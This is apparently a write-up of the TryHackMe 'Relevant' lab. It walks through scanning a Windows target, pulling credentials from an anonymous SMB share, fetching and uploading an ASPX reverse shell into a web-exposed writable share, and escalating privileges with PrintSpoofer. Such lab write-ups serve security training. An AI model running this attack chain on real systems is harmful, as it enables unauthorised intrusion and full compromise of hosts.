

*2021-09-01*

*kimm3*

# Walkthrough: Relevant
Platform: TryHackMe

Difficulty: Medium

- [Link](https://tryhackme.com/room/relevant)


## Setup


```
script history
export IP=10.10.96.187
ping $IP
```

(Machine responds to ICMP)

(Had to reset the machine due to it freezin up, so IP changes in the walkthrough.)
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`


A windows machine, no domain, computer name 'relevant'. IIS server at 80 (and maybe at 49663?), smb(2) enabled and a rdp service at 3389. Let' start exploring.

### http


Standard IIS page at port 80 and the same at 49663. This threw me off for quite some time because that port didn't respond at first. This happened a few time during the box, had to reset it to get it working again.


### smb
`smbclient -N -L $IP | tee scans/smblist.txt`


```
smbclient -Nv //$IP/nt4wrksv
dir
lcd foundfiles
get passwords.txt
```


Encoded passwords. Luckily for us, encoded with base64.


### rdp
Let's give that rdp service a try with these credentials.

```
xfreerdp /u:Bob /p:!P@$$W0rD!123 /v:$IP
xfreerdp /u:Bill /p:'Juw4nnaM4n420696969!$$$' /v:10.10.96.187:3389
```


Not sure if rdp knowledge is inadequate or if they don't have permissions/expired passwords. Letting that one go for now.

### futher http
Nothing too obviouis so far, so I'm gonna start scanning the webservers - they have to be there for a reason.

```
sudo nmap $IP -p 80 --script http-enum,http-iis-short-name-brute -oA scans/nmap-http80
ffuf -u "http://10.10.60.134/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-indexdirp80'
ffuf -u "http://10.10.60.134:49663/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/ffuf-indexdirp49663'
```

Nothing.

I'm going to do som really wide searches - adding a bigger list combined with a lot of extensions. I'll let them run in the background and read up on rdp and smb while it's going.

```
ffuf -u "http://10.10.60.134/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -of md -o scans/ffuf-indexdir-med-ext-p80 -e $(cat tools/webext.txt)
ffuf -u "http://10.10.60.134:49663/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -of md -o scans/ffuf-indexdir-med-ext-p49663 -e $(cat tools/webext.txt)
```


We can browse to the address but it's empty. The folder is the same as the smb share, we can view the 'passwords.txt' in the browser. Starting another scan to recurse one level down, meanwhile I'm gonna see if that share is writeable.


```
ffuf -u "http://10.10.202.156:49663/nt4wrksv/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -e html,php -of md -o scans/ffuf-nt4wrks-dir-p49663
```
## Foothold/Exploit
If we have write permission on the share, we have good chances on getting us a reverse shell.




Yup. If we can find a protocol that works(like PHP or aspx) we can put a payload/revshell on the server and execute it.

First try: php, didn't work. Then I tried the cmdasp.aspx.


Works, let's get a proper shell instead.

`curl "https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx" > upload/shell.aspx`


It works and we can get to Bobs desktop to get 'user.test'.

## Privilege Escalation


We have at least one folder we know that we can upload stuff to, let's use winPEAS and output a file in that folder so that we can retrieve for analysis on our local machine.


Seems that the SeImpersonatePrivilege token is enabled. Text from hacktricks:


I tried the JuicyPotato first, but I think AV might have grabbed it. It didn't run and then it got removed. The Printspoofer however, worked.


More info on the subject:
- https://github.com/itm4n/PrintSpoofer
- https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
- https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens
